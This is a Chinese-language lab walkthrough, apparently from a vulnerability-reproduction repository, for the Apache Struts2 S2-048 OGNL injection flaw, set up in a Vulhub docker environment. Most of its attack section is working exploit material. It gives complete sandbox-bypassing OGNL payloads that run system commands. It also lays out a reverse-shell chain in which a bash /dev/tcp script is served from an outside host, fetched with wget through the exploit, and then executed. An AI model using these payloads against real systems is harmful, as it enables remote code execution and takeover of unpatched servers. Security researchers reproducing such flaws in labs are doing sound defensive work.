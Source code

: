 # Struts2 S2-048 远程代码执行漏洞

## 漏洞描述

漏洞详情:

- http://struts.apache.org/docs/s2-048.html
- http://bobao.360.cn/learning/detail/4078.html
- [http://xxlegend.com/2017/07/08/S2-048%20%E5%8A%A8%E6%80%81%E5%88%86%E6%9E%90/](http://xxlegend.com/2017/07/08/S2-048 动态分析/)

## 漏洞影响

影响版本: 2.0.0 - 2.3.32

## 环境搭建

Vulhub执行以下命令启动s2-048测试环境：

```
docker-compose build
docker-compose up -d
```

环境是直接下载的struts-2.3.32的showcase，部署在tomcat-8.5下。环境启动后，访问`http://your-ip:8080/showcase/`即可查看到struts2的测试页面。

## 漏洞复现

访问Integration/Struts 1 Integration：

![image-20220302112924516](images/202203021129614.png)

触发OGNL表达式的位置是`Gangster Name`这个表单。

输入`${233*233}`即可查看执行结果（剩下两个表单随意填写）：

![image-20220302113012978](images/202203021130080.png)

借用S2-045的沙盒绕过方法改了一个POC。将如下POC填入表单`Gengster Name`中，提交即可直接回显命令执行的结果：

```
%{(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#q=@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec('id').getInputStream())).(#q)}
```

![image-20220302113039046](images/202203021130143.png)

当然，也可以直接用s2-045的POC（需要在Burp下进行测试）：

```
%{(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='id').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}
```

![image-20220302113241603](images/202203021132734.png)

### 反弹shell

使用s2-045的POC进行反弹shell。

编写shell脚本并启动http服务器：

```
echo "bash -i >& /dev/tcp/192.168.174.128/9999 0>&1" > shell.sh
python3环境下：python -m http.server 80
```

上传shell.sh文件的命令为：

```
wget 192.168.174.128/shell.sh
```

上传shell.sh文件的Payload为（还需要进行URL编码）：

```
%{(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='wget 192.168.174.128/shell.sh').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}
```

![image-20220302113326283](images/202203021133401.png)

执行shell.sh文件的命令为：

```
bash shell.sh
```

执行shell.sh文件的Payload为（还需要进行URL编码）：

```
%{(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='bash shell.sh').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}
```

成功接收反弹shell：

![image-20220302113402853](images/202203021134938.png)